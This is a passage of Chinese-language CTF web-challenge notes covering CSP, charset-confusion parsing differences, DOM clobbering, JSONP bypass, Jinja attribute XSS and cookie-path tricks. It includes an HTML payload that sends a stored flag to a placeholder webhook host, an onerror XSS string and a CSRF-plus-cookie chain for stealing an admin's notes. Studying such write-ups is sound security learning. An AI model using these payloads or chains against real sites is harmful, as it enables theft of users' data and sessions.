         - 必须在`<head>`标签中，若在`<body>`中会被忽略
        - 无法作用于所有在meta标签前的内容（就是定义出来后csp只作用于下面的内容，当前meta标签前定义的东西一律不管）
    - 在HTML5规定中，无法在`<head>`标签前添加任何东西。这么做相当于默认关闭了`<head>`标签并开启`<body>`标签。注释，DTD除外
    - dom clobbering无法绕过`document.querySelector()`配合`===`的过滤
    - chrome禁用了`data:`url的meta标签的重定向
    - 根据html5规定的13.2部分： https://html.spec.whatwg.org/multipage/parsing.html#parsing ，在浏览器决定当前文档的编码格式时，若当前文档的所有内容尚未加载完毕，可以只将编码格式作用于已加载好的第一部分。对于`data:` url，编码格式作用于整个文档（因为这样的文档是一瞬间加载好的）；但对于网络加载的url则不是这样。non-streamed html和streaming html的差别
    - ISO-2022-JP Charset confusion（[forms](https://github.com/ImaginaryCTF/ImaginaryCTF-2024-Challenges-Public/blob/main/Web/forms)也是这个知识点）。配合上一条就可以在这题构造出编码格式的差异：
    ```html
    <html>
	<head>
    	<!-- é - Add a windows-1252 character to make sure early heurstics detect as windows-1252 -->
        <!-- ^[$BNq From this part onwards it is visible only in windows-1252 mode -->
        <script> doSomeEvilStuff();x = new Image(); x.src='https://mywebhook?' + encodeURIComponent(localStorage['flag']); </script>
        <!-- Bunch of junk. Repeat this 3000 times to split amongst multiple packets -->
        <!-- ^[(B After this point, visible in both modes -->
        <meta http-equiv="Content-Security-Policy" content="default-src 'none'">
        <meta charset="iso-2022-jp">
    </head>
    <body></body></html>
    ```
    假如用`data:` url加载这段内容，整个文档瞬间加载完成，浏览器直接用meta标签里定义的`iso-2022-jp`作为编码格式，那么上面那段`<script>`就会被吞掉；但是若用网络加载，我们在中间填充的垃圾内容会增加文档加载的时间，浏览器只能先加载前面的部分，`<script>`内容正常渲染。过了一段时间后才能加载到meta部分，这时才把编码格式换成`iso-2022-jp`，但不会影响之前已经渲染的内容。本来在遇到延迟的meta标签后，浏览器应该重新解析整个文档，但chrome没有，造成了这个差异漏洞
    - 更详细的wp： https://0xalessandro.github.io/posts/sekai 。官方wp： https://blog.ankursundara.com/htmlsandbox-writeup 。补充了一个知识点：从disk cache加载的文档为non-streamed parsing，而从网络加载的文档为streamed parsing。意味着打开同一个文档两次的结果可能会不同（第一次网络加载，第二次走cache）
- [Hiring Platform](https://abdulhaq.me/blog/iron-ctf-2024)
    - xss+dom clobbering。此题的csp为`script-src 'self'`，可用jsonp绕过。如果题目是一个WordPress网站的话，一般都会有JSONP端点，但这个端点源码里是看不到的
    - 利用iframe的srcdoc属性绕过针对innerHTML属性的过滤
    - 如果代码里引用了一个未定义的变量并以此作为if语句的判断条件：
    ```js
    if (some_undefined){
        //...
    }
    ```
    可以用dom clobbering进入if语句分支，如`<a id=some_undefined>`
    - 如果能使用`<input>`标签，就可以控制某个form提交的变量名称和内容。比如有个form的id是`select`，在任意位置加上这句就能添加form字段：
    ```html
    <input type="text" name="remark" value="REMARK" form="select">
    ```
    提交id为select的form后请求参数里会有`remark=REMARK`项
- [Secret Notes](https://abdulhaq.me/blog/iron-ctf-2024)
    - flask内部使用jinja作为模板引擎。在使用`{{ ... }}`插入变量时，jinja会自动转义特殊字符来规避xss。但注意插入标签的属性时需要这样做：
    ```html
    <img class="profile" alt="{{ attr }}">
    ```
    如果去掉引号，变为`alt={{ attr }}`，攻击者可注入空格、引号等字符当作attr，插入xss payload：`\ src/onerror=alert(1)`
    - cookie jar overflow。之前也见过，这里用来挤掉账号登录的cookie，实现logout的效果
    - Cookie Path Precedence。设置cookie时若添加`path=xxx`选项，且前面没有在这个path下设置cookie；下次访问xxx路径时下发的还是这个cookie，无视实际登录时的cookie。比如admin登录账号，拥有admin cookie。但我们在admin登录前提前在路径a下设置了另一个cookie evil。那么admin访问路径a之外的所有路径持有的都是admin cookie，除了路径a。当admin访问a时，持有的cookie是evil
    - 这题比较特别，xss payload长度限制在31个字符，而且admin bot先访问攻击者url再登录网站。题目在`/profile`下有xss payload，登录后自动重定向至`/profile`。目标是窃取admin在`/notes`下的flag。简述wp的思路：准备两个账号，attacker1和attacker2，账号里的xss payload都是`eval(window.name)`。记录下attacker2账号的cookie，称为`ATTACK`。利用csrf使admin登录attacker1账号，设置一个`path=/profile`的cookie，内容为`ATTACK`。接着利用cookie jar overflow登出attacker1账号。按照admin bot的代码逻辑，此时admin bot登录admin账号。注意此时重定向到`/profile`用的是attacker2的cookie，便可以执行提前准备好的窃取notes的payload（访问`/notes`时的cookie还是admin的，不影响拿flag）
- [Beautiful Buttons](https://abdulhaq.me/blog/iron-ctf-2024)
